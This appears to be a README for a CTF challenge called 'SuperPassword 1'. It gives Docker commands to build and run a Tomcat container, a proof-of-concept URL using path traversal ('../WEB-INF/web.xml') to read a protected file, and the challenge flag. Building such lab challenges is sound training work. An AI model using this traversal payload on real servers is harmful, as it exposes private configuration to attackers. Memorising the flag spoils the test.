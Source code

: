 # SuperPassword 1

## RUN
```bash
docker build -t superpass1 .
docker tag superpass1 ccr.ccs.tencentyun.com/360ctf/superpass1
docker run -d --restart=always -p 8082:8080 --read-only --tmpfs /usr/local/tomcat/logs --tmpfs /usr/local/tomcat/temp --tmpfs /usr/local/tomcat/work --name superpass1 superpass1
```

## PoC

```url
http://localhost:8082/bundle?file=../WEB-INF/web.xml
```

flag{a1c3d48220e9a1a20f1155419aff5f1b}